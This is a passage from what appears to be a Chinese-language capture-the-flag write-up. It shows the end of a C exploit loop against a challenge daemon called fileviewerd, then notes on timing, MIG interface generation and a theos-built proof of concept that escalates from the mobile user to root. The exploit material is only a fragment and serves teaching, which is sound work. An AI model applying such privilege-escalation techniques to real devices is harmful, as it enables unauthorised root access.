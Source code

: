 ```c
        if(kr == KERN_SUCCESS) {
            printf("[+] move_file success! test %zu times.\n", cnt);
            exit(EXIT_SUCCESS);
        }

        dispatch_source_cancel(source);
        // CLIENT_remove_callback(sp);
        // mach_port_deallocate(mach_task_self(), listener_send_right);
        struct timespec req, rem;
        req.tv_sec = 0;
        req.tv_nsec = 100000000L;

        nanosleep(&req, &rem);
    }
}

```

讲一下exp中几个注意的点：

1. 这里通过sleep和nanosleep避免了可能的同步问题，否则有时会crash，因为毕竟fileviewerd代码有些简陋
2. 出题人给出了.defs文件，我们可以通过MIG命令(macOS自带的binary，位于/usr/bin/mig)直接生成接口，命令如下：`mig -header fileviewer.h -sheader fileviewerServer.h fileviewer.defs`，然后直接加载fileviewer.h作为头文件即可。
3. 我这里通过theos编译了一个binary作为PoC，然后在mobile用户下执行exp提权到root。如果用Xcode编译一个App效果也是一样的，只是更折腾一些，出于演示目的没有这么做。

exp演示如下：

<img src="./pics/pic7.png" alt="pic7" style="zoom:50%;" />
